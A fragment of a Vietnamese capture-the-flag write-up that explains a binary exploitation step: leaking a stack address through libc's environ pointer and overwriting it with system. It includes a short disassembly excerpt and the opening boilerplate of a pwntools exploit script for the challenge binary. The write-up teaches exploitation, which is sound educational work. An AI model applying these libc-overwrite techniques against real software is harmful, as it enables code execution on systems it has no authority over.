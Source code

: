 - lúc này `rbx` là địa chỉ `libc_bss` của ta vừa ghi 


![image](https://hackmd.io/_uploads/SJnmbpP1gg.png)

- và loop lại main thành công

![image](https://hackmd.io/_uploads/HkDiW6Pyge.png)

- tiếp theo cuối cùng ta sẽ leak stack , tại sao lại leak stack? nếu tinh ý thì địa chỉ `libc_bss+0x18` sẽ là `libc_environ` , và đoạn code bên dưới nó sẽ cập nhật giá trị của địa chỉ này thành 1 địa chỉ `stack` , vì vậy ta cần leak địa chỉ stack và cuối cùng overwrite nó thành system là oke @@  

```
0x00007f597cfe4e50 <+32>:    mov    rdx,QWORD PTR [rbx+0x18]
0x00007f597cfe4e54 <+36>:    mov    rax,QWORD PTR [rbx]
0x00007f597cfe4e57 <+39>:    ror    rax,0x11
0x00007f597cfe4e5b <+43>:    xor    rax,QWORD PTR fs:0x30
0x00007f597cfe4e64 <+52>:    mov    QWORD PTR fs:[rbp+0x0],rdx
```

![image](https://hackmd.io/_uploads/ByTfr6wkgl.png)


exp: 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwn import *

context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
context.update(arch="amd64", os="linux")
context.log_level = "debug"
exe = context.binary = ELF("./chal_patched", checksec=False)
libc = ELF("./libc.so.6")
log_levels = ["info", "error", "warn", "debug"]
info = lambda msg: log.info(msg)
error = lambda msg: log.error(msg)
warn = lambda msg: log.warn(msg)
debug = lambda msg: log.debug(msg)


def one_gadget(filename, base_addr=0):
    return [
        (int(i) + base_addr)
        for i in subprocess.check_output(["one_gadget", "--raw", "-l0", filename])
        .decode()
        .split(" ")
    ]

```